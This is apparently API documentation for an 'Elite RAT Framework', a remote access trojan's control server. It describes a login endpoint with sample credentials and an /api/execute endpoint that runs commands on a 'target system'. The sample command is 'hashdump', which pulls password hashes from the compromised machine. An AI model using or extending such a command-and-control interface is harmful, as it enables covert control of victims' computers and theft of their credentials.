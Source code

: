 # 📖 Elite RAT Framework - API Documentation

## REST API Endpoints

### Authentication

#### POST /api/auth/login
Authenticate and receive session token.

**Request:**
```json
{
    "username": "admin",
    "password": "password123"
}
```

**Response:**
```json
{
    "success": true,
    "token": "eyJ0eXAiOiJKV1QiLCJhbGc...",
    "expires": "2024-12-31T23:59:59"
}
```

### Command Execution

#### POST /api/execute
Execute command on target system.

**Headers:**
- `X-CSRFToken`: CSRF token
- `Authorization`: Bearer <token>

**Request:**
```json
{
    "connection_id": "target-001",
    "command": "hashdump",
    "parameters": {}
}
```

**Response:**
```json
{
    "success": true,
    "command": "hashdump",
    "output": "...",
    "timestamp": "2024-01-01T12:00:00",
    "source": "elite"
}
```
